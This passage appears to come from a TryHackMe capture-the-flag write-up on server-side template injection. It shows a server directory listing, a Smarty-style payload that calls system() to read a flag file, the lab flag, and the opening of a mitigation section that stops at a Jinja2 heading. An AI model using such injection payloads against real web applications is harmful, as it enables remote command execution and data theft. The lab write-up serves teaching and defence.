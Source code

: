 ```
total 100drwxrwxr-x 12 1000 1000 4096 May 19 2024 .drwxr-xr-x 1 root root 4096 Mar 17 2022 ..-rw-r--r-- 1 1000 1000 6148 Feb 27 2023 .DS_Store-rw-rw-r-- 1 1000 1000 176 Feb 27 2023 .gitattributes-rw-rw-r-- 1 1000 1000 218 Feb 27 2023 .gitignore-rw-rw-r-- 1 www-data www-data 18 May 19 2024 105e15924c1e41bf53ea64afa0fa72b2.txt-rw-rw-r-- 1 www-data www-data 15145 Feb 27 2023 LICENSE.txtdrwxrwxr-x 8 www-data www-data 4096 Feb 27 2023 admindrwxrwxrwx 2 www-data www-data 4096 May 5 23:05 cachedrwxrwxr-x 4 www-data www-data 4096 Feb 27 2023 clients-rw-rw-r-- 1 www-data www-data 705 Feb 27 2023 error.php-rw-rw-r-- 1 www-data www-data 1457 Feb 27 2023 forget_password.phpdrwxrwxr-x 14 www-data www-data 4096 May 19 2024 global-rw-rw-r-- 1 www-data www-data 2209 Feb 27 2023 index.phpdrwxrwxr-x 2 www-data www-data 4096 Feb 27 2023 installdrwxrwxr-x 10 www-data www-data 4096 Feb 27 2023 modules-rw-rw-r-- 1 www-data www-data 1659 Feb 27 2023 process.phpdrwxrwxr-x 2 www-data www-data 4096 Feb 27 2023 reactdrwxrwxr-x 5 www-data www-data 4096 Feb 27 2023 themesdrwxrwxrwx 2 www-data www-data 4096 Feb 27 2023 uploaddrwxrwxr-x 7 www-data www-data 4096 Feb 27 2023 vendordrwxrwxr-x 7 www-data www-data 4096 Feb 27 2023 vendor
```

We got our file:

```
105e15924c1e41bf53ea64afa0fa72b2.txt
```

Let's read it:

```
{system("cat /var/www/html/105e15924c1e41bf53ea64afa0fa72b2.txt")}
```

![Pasted image 20250505182108.png](../../../IMAGES/Pasted%20image%2020250505182108.png)

There we go, our flag is:

```
THM{w0rK1Ng_sST1}
```

 
# Mitigation
---

Server-side Template Injection (SSTI) can be mitigated by following best practices and implementing security measures in the application's code. Here's how to mitigate SSTI in Smarty, Jade, and Jinja2:

### Jinja2
